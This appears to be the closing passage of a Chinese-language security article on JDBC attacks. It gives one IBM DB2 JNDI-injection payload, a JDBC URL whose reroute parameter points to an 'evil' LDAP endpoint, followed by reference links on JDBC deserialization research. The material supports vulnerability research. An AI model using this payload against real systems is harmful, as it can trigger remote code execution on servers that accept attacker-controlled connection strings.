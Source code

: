 #### IBM DB2 JNDI注入

payload:`jdbc:db2://127.0.0.1:50000/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1099/evil;`


## 参考资料

- [JDBC数据库汇总Attack研究](https://www.cnblogs.com/F12-blog/p/18144377){:target="_blank"}
- [小白看得懂的MySQL JDBC 反序列化漏洞分析](https://xz.aliyun.com/t/8159){:target="_blank"}
- [MYSQL JDBC反序列化解析](https://tttang.com/archive/1877){:target="_blank"}
- [Java JDBC](https://wiki.wgpsec.org/knowledge/ctf/JDBC-Unserialize.html){:target="_blank"}
- [PostgresQL JDBC Drive 任意代码执行漏洞(CVE-2022-21724)](https://xz.aliyun.com/t/11812?time__1311=Cq0xuD07wxRDlhzG7K6e4rfT4Y53x){:target="_blank"}